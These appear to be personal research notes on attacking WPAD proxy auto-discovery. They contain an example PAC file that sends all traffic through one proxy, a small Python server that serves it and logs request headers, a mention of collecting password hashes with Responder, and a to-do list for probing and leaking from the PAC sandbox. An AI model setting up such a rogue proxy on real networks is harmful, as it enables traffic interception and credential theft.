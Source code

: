 <!-- TITLE: Wpad -->
<!-- SUBTITLE: A quick summary of Wpad -->

# DNS
# WINS
# NMB
# Windows Command to show proxy
```
netsh winhttp show proxy
```
# DHCP Response
Per Cisco site (https://www.cisco.com/c/en/us/td/docs/security/web_security/connector/connector2972A/WPADAP.html):  
A browser that supports both methods will check the DHCP assignment first, before attempting the DNS method.

A DHCP server must be configured to serve an additional setting in an IP address assignment; option 252. This option specifies the exact location of the PAC file. The file name does not need to follow any specific naming convention, however if WPAD DNS is to be used also, the file must have the file name wpad.dat.

A Web browser implementing this method sends the DHCP server a DHCPINFORM query, the DHCP server will return the expected IP settings along with the 252 option which defines the location of the PAC file. The browser will then download this PAC file from the URL provided. 

Can DHCP Response be sent unsolicited?
# Example Response

```text
function FindProxyForURL(url, host) {
        return "PROXY 10.0.0.169:8080";
}
```

# Example Python Server (note content-type)

```text
import SimpleHTTPServer
import SocketServer
import logging

PORT = 80


class GetHandler(SimpleHTTPServer.SimpleHTTPRequestHandler):

    def do_GET(self):
        logging.error(self.headers)
        SimpleHTTPServer.SimpleHTTPRequestHandler.do_GET(self)

Handler = GetHandler

Handler.extensions_map.update({
    '.dat': 'application/x-ns-proxy-autoconfig',
});

httpd = SocketServer.TCPServer(("", PORT), Handler)

print "serving at port", PORT
httpd.serve_forever()

```

# Hash Collection using WPAD
responder does this.  Should upgrade python server to only request it once per machine.  Once I've got it, don't require it.  Also research which processes will provide it.  Windows Update?  Adobe?

# Things to Try
* Want list of software that honors WPAD.  DHCP, DNS, and WINS
	* Collect User-agent
	* how many times does each piece try?
		* Which one is actually used?
	* Caching?
* All software needs to try all tests
* Will need base64-encoding function for leak encoding
* Tests - To be done inside FindProxyForURL and outside
	* Alert()
	* Divide by zero
	* Namespace exploration
	* dns resolution to indicate execution
	* infinite loop
	* infinite recursion
	* spectre stuff for external examination
	* Does js have exception handling?
	* explore built in function implementation (looking for leaks)
